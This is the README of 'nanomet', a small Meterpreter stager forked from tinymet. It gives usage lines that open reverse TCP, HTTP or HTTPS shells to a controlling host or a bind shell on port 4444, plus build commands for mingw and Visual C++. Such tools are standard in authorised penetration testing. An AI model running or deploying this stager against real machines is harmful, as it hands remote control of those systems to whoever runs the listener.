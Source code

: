 nanomet
=======

nanomet is tinymet modified to support compiling using mingw compilers.

A "nano" meterpreter stager.  Copyright (c) 2014, Vlatko Kosturjak - kost

Based on tinymet by Copyright (c) 2014, Sherif Eldeeb "eldeeb.net"
please visit http://tinymet.com for details

Usage
=======

Usage: nanomet.exe [transport] LHOST LPORT

Available transports are as follows:

* 0: reverse_tcp
* 1: reverse_http
* 2: reverse_https
* 3: bind_tcp

Example
========

use reverse_https and connect to host.com:443

    nanomet.exe 2 host.com 443

bind_tcp port 4444 on all interfaces

    nanomet.exe 3 0.0.0.0 4444


Building
========

Linux: 

    make CC=i586-mingw32msvc-gcc

Mac OS X:

    make CC=i386-mingw32-gcc

Microsoft Windows / Visual C++:

    nmake /f Makefile.vc

